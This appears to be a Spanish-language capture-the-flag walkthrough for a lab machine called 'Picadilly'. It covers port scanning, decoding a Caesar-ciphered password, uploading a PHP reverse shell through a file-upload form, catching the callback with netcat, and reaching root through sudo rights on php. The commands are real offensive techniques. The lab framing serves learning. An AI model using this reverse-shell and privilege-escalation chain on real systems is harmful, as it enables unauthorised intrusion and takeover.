






-----------------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap


```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:02 -03
Initiating ARP Ping Scan at 21:02
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 21:02, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:02
Scanning 10.88.0.2 [65535 ports]
Discovered open port 443/tcp on 10.88.0.2
Discovered open port 80/tcp on 10.88.0.2
Completed SYN Stealth Scan at 21:02, 0.86s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-07-24 21:02:18 -03 for 0s
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 64
443/tcp open  https   syn-ack ttl 64
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Como vemos encontramos el puerto 80 y 443 estos dos puertos tienen una pagina web
```bash
❯ nmap -p80,443 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:04 -03
Nmap scan report for 10.88.0.2
Host is up (0.000045s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_ssl-date: TLS randomness does not represent time
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Vamos a la pagina web por el puerto 80 donde tenemos capacidad de directory listing que tiene un recurso llamado backup.txt



Este recurso vemos que hay una contraseña que esta en cifrado cesar 



A esto lo podemos descifrar de la siguiente manera
```bash
❯ echo "hdvbfuadcb" | tr 'a-z' 'x-za-w'
easycrxazy
```
y si queremos practicar un poquito de scripting en bash podemos realizar el siguiente script, para probar todas las combinatorias de desplazamiento e ir viendo los mensajes desencriptados 


```bash
 encrypted_message="hdvbfuadcb" 
 for shift in {1..25}; do echo -n "Desplazamiento $shift: " echo "$encrypted_message" | tr $(echo {a..z} | sed -r 's/ //g') $(echo {a..z} | sed -r "s/ //g;s/(.{$shift})(.*)/\2\1/") 
done
```
Lo ejecutamos
```bash
❯ ./decrypt.sh
Desplazamiento 1: hdvbfuadcb
Desplazamiento 2: iewcgvbedc
Desplazamiento 3: jfxdhwcfed
Desplazamiento 4: kgyeixdgfe
Desplazamiento 5: lhzfjyehgf
Desplazamiento 6: miagkzfihg
Desplazamiento 7: njbhlagjih
Desplazamiento 8: okcimbhkji
Desplazamiento 9: pldjncilkj
Desplazamiento 10: qmekodjmlk
Desplazamiento 11: rnflpeknml
Desplazamiento 12: sogmqflonm
Desplazamiento 13: tphnrgmpon
Desplazamiento 14: uqioshnqpo
Desplazamiento 15: vrjptiorqp
Desplazamiento 16: wskqujpsrq
Desplazamiento 17: xtlrvkqtsr
Desplazamiento 18: yumswlruts
Desplazamiento 19: zvntxmsvut
Desplazamiento 20: awouyntwvu
Desplazamiento 21: bxpvzouxwv
Desplazamiento 22: cyqwapvyxw
Desplazamiento 23: dzrxbqwzyx
Desplazamiento 24: easycrxazy
Desplazamiento 25: fbtzdsybaz
```
Veremos si esta contraseña va en la otra pagina web que corre por el puerto 443, pero como vemos no hay pagina de login pero si de subida de archivos 


Probaremos esta subida de archivo para ver si nos deja subir un php malicioso que nos otorgue una reverse shell o nos permita ejecutar comando, veremos que nos reporta whatweb sobre esta pagina


```bash
❯ whatweb https://10.88.0.2:443
https://10.88.0.2:443 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.88.0.2], Title[Picadilly]
```
Vemos que nos descubre gran cosa por lo que procedemos a subir un php malicioso que nos otorgue  una reverse shell, vamos a github y descargamos [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) y lo editamos con nuestra Ip y puerto de escucha



ahora subimos el archivo y nos ponemos en escucha por el puerto 443



Vemos que el archivo se sube pero no, nos lo interpreta por lo tanto probamos si es que hay una ruta llamda uploads, vemos que efectivamente si existe



Una vez que clickeamos el archivo que subimos vermos que nos otorga una reverse shell


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.10.111] from (UNKNOWN) [10.88.0.2] 51338
Linux eae50915364f 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 01:28:47 up  2:02,  0 user,  load average: 0.12, 0.35, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
ahora hacemos un tratamiento de la tty
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@eae50915364f:/$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

#### Privelege Escalation
Tenemos el usuario mateo y como de antes desciframos su contraseña vamos a pivotar a este usuario
```bash
www-data@eae50915364f:/home$ ls
mateo
```
A la contraseña debemos hacerle un pequeño cambio, esto tienen que hacerlo con pura intuicion
```bash
www-data@eae50915364f:/home$ su mateo
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo  
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo 
Password: 
mateo@eae50915364f:/home$ 
```
Ahora veremeos como hacemos para escalar a root

### Root
Vemos que tenemos capacidad para ejecutar el comando php como sudo, y a esto lo vamos a estar ejecutando como root
```bash
mateo@eae50915364f:/home$ id
uid=1000(mateo) gid=1000(mateo) groups=1000(mateo)
mateo@eae50915364f:/home$ sudo -l 
Matching Defaults entries for mateo on eae50915364f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on eae50915364f:
    (ALL) NOPASSWD: /usr/bin/php
mateo@eae50915364f:/home$ 
```
Si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) vemos que podemos escribir el siguiente comando para darnos una bash como root

entonces ejecutamos este comando que va a crear una variable CMD lo que va hacer es que vale /bin/bash luego ejecutando el privilegio sudo va hacer una llamada a nivel de sistema a esta variable CMD
```bash
mateo@eae50915364f:/home$ CMD="/bin/bash"
sudo php -r "system('$CMD');"
root@eae50915364f:/home# whoami
root
root@eae50915364f:/home# 
```
